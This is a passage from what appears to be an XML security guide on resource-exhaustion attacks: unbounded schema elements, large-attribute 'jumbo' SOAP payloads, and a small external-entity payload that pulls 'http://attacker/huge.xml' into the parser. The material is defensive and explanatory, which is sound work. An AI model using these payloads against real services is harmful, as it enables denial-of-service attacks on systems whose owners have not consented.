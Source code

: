 ```xml
  </xs:complexType>
 </xs:element>
</xs:schema>
```

The previous schema includes a root element named `operation`, which can contain an unlimited (`unbounded`) amount of buy elements. This is a common finding, since developers do not normally want to restrict maximum numbers of occurrences. **Applications using limitless occurrences should test what happens when they receive an extremely large amount of elements to be processed. Since computational resources are limited, the consequences should be analyzed and eventually a maximum number ought to be used instead of an `unbounded` value.**

### Jumbo Payloads

**Sending an XML document of 1GB requires only a second of server processing and might not be worth consideration as an attack. Instead, an attacker would look for a way to minimize the CPU and traffic used to generate this type of attack, compared to the overall amount of server CPU or traffic used to handle the requests.**

#### Traditional Jumbo Payloads

**There are two primary methods to make a document larger than normal:**

**- Depth attack: using a huge number of elements, element names, and/or element values.**

**- Width attack: using a huge number of attributes, attribute names, and/or attribute values.**

In most cases, the overall result will be a huge document. This is a short example of what this looks like:

```xml
<SOAPENV:ENVELOPE XMLNS:SOAPENV="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/"
                  XMLNS:EXT="HTTP://COM/IBM/WAS/WSSAMPLE/SEI/ECHO/B2B/EXTERNAL">
 <SOAPENV:HEADER LARGENAME1="LARGEVALUE"
                 LARGENAME2="LARGEVALUE2"
                 LARGENAME3="LARGEVALUE3" …>
 ...
```

#### "Small" Jumbo Payloads

**The following example is a very small document, but the results of processing this could be similar to those of processing traditional jumbo payloads.** The purpose of such a small payload is that it allows an attacker to send many documents fast enough to make the application consume most or all of the available resources:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
 <!ENTITY file SYSTEM "http://attacker/huge.xml" >
]>
<root>&file;</root>
```

### Schema Poisoning
